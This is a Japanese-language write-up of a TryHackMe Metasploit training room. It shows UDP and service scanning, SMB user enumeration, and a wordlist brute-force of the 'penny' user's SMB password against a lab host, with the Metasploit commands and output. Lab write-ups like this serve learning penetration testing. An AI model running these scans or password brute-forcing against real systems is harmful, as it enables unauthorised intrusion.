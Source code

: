 # Write Up  

* https://tryhackme.com/room/metasploitexploitation#
<br>
## Scanning
---  
<br>

--- 


* ### Using the relevant scanner, what NetBIOS name can you see?  
metasploitのscannerを使ってNetBIOSの名前を探る。  
そももそも、どうしてNetBiOSを探ろうとしたのかってめっちゃ気になるじゃん。  

```
msf5 auxiliary(scanner/discovery/udp_sweep) > exploit -z

[*] Sending 13 probes to 10.10.251.114->10.10.251.114 (1 hosts)
[*] Discovered NetBIOS on 10.10.251.114:137 (ACME IT SUPPORT:<00>:G :ACME IT SUPPORT:<1e>:G :IP-10-10-251-11:<00>:U :IP-10-10-251-11:<03>:U :IP-10-10-251-11:<20>:U :00:00:00:00:00:00)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```  
udpのサービスをエクスプロイトしたいと思ったとして、  
上記モジュールを実行した。  
すると、NetBIOSがヒットしたため。  
こちらの情報を調べることにした。  

<br>

---

* ### What is running on port 8000?  
http_versionを使用。  
portscanの結果、tcpでどのportが開いてるかはわかったのでそのサービスが知りたい。
```
//nmapの結果(略)
8000/tcp open  http-alt
```  
これ何が動いてるのかなあって時にhtp_versionを使用。  

```
// RPORTを8000にセット
set RPORT 8000
```  
--- 

* ### What is the "penny" user's SMB password? Use the wordlist mentioned in the previous task.  
smbのユーザーとpasswordの情報を知りたい時。  

```
//smbユーザーの列挙
use auxiliary/scanner/smb/smb_enumusers 
```
このモジュールの実行で、userがpennyということはわかる。  
総当たりでpennyのパスワードを調べる。  

```
set SMBUser penny
set DB_ALL_PASS true
set BLANK_PASSWORDS true
set PASS_FILE /usr/share/wordlists/MetasploitRoom/MetasploitWordlist.txt
setg RHOSTS <TARGETIP>
exploit -z
```

次どんな手を打とうかとなった時、searchコマンドでエクスプロイトできそうなサービスを調べてみると良い。  
